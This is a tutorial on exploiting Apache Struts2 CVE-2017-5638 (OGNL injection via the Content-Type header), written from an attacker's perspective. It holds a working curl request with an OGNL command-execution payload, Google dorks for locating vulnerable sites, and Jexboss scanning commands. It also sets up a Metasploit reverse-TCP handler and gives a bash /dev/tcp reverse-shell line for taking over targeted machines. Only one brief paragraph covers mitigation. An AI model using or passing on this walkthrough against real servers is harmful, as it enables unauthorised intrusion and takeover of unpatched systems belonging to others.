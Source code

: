 ## How Hackers Exploit Struts2 on Linux and Windows Servers

**The Jakarta Multipart Parser** in **Apache Struts** 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 has incorrect exception handling and error-message generation during file-upload attempts, which allows remote attackers to execute arbitrary commands via a crafted "`Content-Type`", "`Content-Disposition`" or "`Content-Length`" HTTP header.

**Source:** [rapid7.com](https://www.rapid7.com/db/vulnerabilities/apache-struts-cve-2017-5638)

* * *

###### ANATOMY OF THE ATTACK

**Apache Struts Vulnerability**

Struts are vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid "Content-Type HTTP header". The Struts vulnerability allows these commands to be executed under the privileges of the Web server.

If the "Content-Type" value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the "Content-Type" to an OGNL expression such as:

```none
Content­Type: ${(#_='multipart/form­data')}...
```

**Why Does the Vuln Occur ?**

The vulnerability occurs because the Content-Type is not escaped after the error, and is then used by **LocalizedTextUtil.findText()** function to build the error message. This function will interpret the supplied message, and anything within **${…}** will be treated as an Object Graph Navigation Library (OGNL) expression and evaluated as such. The attacker can leverage these conditions to execute OGNL expressions that in turn execute system commands.

OGNL is also an expressive and extensive language in and of itself. It’s a very powerful and reliable tool for the attacker. Many core JAVA functions can be exposed, for example, **java.core.ProcessBuilder()** allows an external program to be run on the system.

Exploitation is also further facilitated by the ability to receive information back from the server on the status and output of the commands that are executed by the webserver. No additional communication channel is needed, which aids in minimizing detection and bypassing existing firewall rules.

**HTTP REQUEST WITH CURL CONTAINING CONTENT-TYPE HEADER WITH OGNL EXPRESSION.**

```none
curl https://example.com:8080/welcome.action -H "Content-Type:
%{(#_="multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)
.(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container'])
.(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))
.(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear())
.(#context.setMemberAccess(#dm)))).(#eps=#container.toString()).(#cmds=({'/bin/echo', #eps}))
.(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())
.(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))
.(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush()))}
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
```

The **curl** command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header. The OGNL expression sets default access rights to the members of the **OgnlContext JAVA object**, which represents the execution context of the expression.

**How Do Mitigate this Vulnerability?**

Web application firewalls such as **mod_security** can mitigate the risks associated with this type of attack if rules are set to types valid content or OGNL expressions included in a blacklist. Another solution, and certainly the best one, is the **Struts2** update.

**Source:** [blog.blackducksoftware.com](https://blog.blackducksoftware.com/cve-2017-5638-anatomy-apache-struts-vulnerability)

* * *

###### GOOGLE DORK

There is no doubt that there are thousand and one ways to find vulnerable targets for this type of attack. To cut short, we are going to use a non-exhaustive list of Google Dork to demonstrate how it’s easy for a blackhat to build a list of potentially vulnerable websites.

```none
intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
intitle:"Struts Problem Report" intext:"development mode is enabled."
filetype:action
filetype:do
filetype:java
filetype:out
filetype:bat
filetype:seam
filetype:sh
filetype:bson
filetype:el
filetype:pm
inurl:login.action
inurl:login.do
inurl:login.java
inurl:index.action
inurl:index.do
inurl:index.java
```

* * *

###### VULNERABILITY ANALYSIS

To detect if a host is vulnerable to the **Struts2** exploit, we can use **Jexboss**, this tool made in Python is definitively doing a great job and can help you to save precious time. The tool and exploits were developed and tested for JBoss Application Server versions v3, v4, v5, and v6\. JSF, Seam Framework, RMI over HTTP, Jenkins CLI RCE (CVE-2015-5317), Remote JMX (CVE-2016-3427, CVE-2016-8735). For more information, you can visit the [Github](https://github.com/joaomatosf/jexboss) page of the author.

**Requirements**

- Python >= 2.7.x
- urllib3
- ipaddress

**Install Jexboss on Ubuntu/Debian and other derived distributions**

```bash
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss
pip install -r requires.txt
python jexboss.py -h
```

Or

```bash
# Download the latest version at: https://github.com/joaomatosf/jexboss/archive/master.zip
unzip master.zip
cd jexboss-master
pip install -r requires.txt
python jexboss.py -h
```

**Install Jexboss on Windows**

If you are using Windows, you can use the Git Bash to run the JexBoss.

- Download and install Python
- Download and install Git for Windows
- After installing, run the Git for Windows and type the following commands

```bash
PATH=$PATH:C:\Python27\
PATH=$PATH:C:\Python27\Scripts
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss
pip install -r requires.txt
python jexboss.py -h
```

* * *

###### HOW TO USE JEXBOSS

**Scan single host using Jexboss**

```bash
# Type the below commands in your terminal
sudo python jexboss.py -host http://target_host:8080
```

**Scan multiple hosts using Jexboss**

```bash
# Type the below commands in your terminal
# Don't forget to replace the path with your own
sudo python jexboss.py ­-mode -file­-scan -­file /path/file/urls.txt ­-out /path/output/results.log ­­--struts2
```

* * *

###### CREATE MSF SESSION

To open a session from our targeted website, we will need to create an exploit multi-handler with **Metasploit**. This can be done very quickly using the below commands.

```bash
# Open Metasploit
msfconsole

# Type the below commands in your terminal
msf > use exploit/multi/handler
msf exploit(multi/handler) > set "YOUR-IP-ADDRESS"
msf exploit(multi/handler) > set "YOUR-LOCAL-PORT"
msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp
msf exploit(multi/handler) > show options
```

On the above example, we are using a Linux X86 Shell Reverse TCP payload, of course the type of payload shall be different if we are targeting a Windows machine.

* * *

###### EXPLOIT THE TARGET

We are now going to send our exploit to create a reverse shell using **Jexboss** and forward the traffic to the MSF session using TCP protocol.

**Jexboss Commands**

```bash
sudo python jexboss.py -host http://example.com/login.action --struts2
```

If **Jexboss** can inject his payload, you will need to enter the below command to establish a connection with **Metasploit**.

**Jexboss Console**

```bash
# Replace `MACHINE-IP-ADDRESS` and `MACHINE-PORT` with your own parameters
Shell> /bin/bash -i > /dev/tcp/MACHINE-IP-ADDRESS/MACHINE-PORT 0>&1 2>&1
```

**Metasploit Console**

```bash
msf exploit(multi/handler) > exploit
```

You are done! If the targeted website and/or server is vulnerable to **Struts2** exploit, a session will be created in your **Metasploit** allowing you to take over the targeted machine. For more information about this tutorial and to see a live demonstration of this type of attack, I encourage you to watch the video below.

[![video-1](http://i3.ytimg.com/vi/DY4nuIPHDYc/maxresdefault.jpg)](https://www.youtube.com/watch?v=DY4nuIPHDYc)
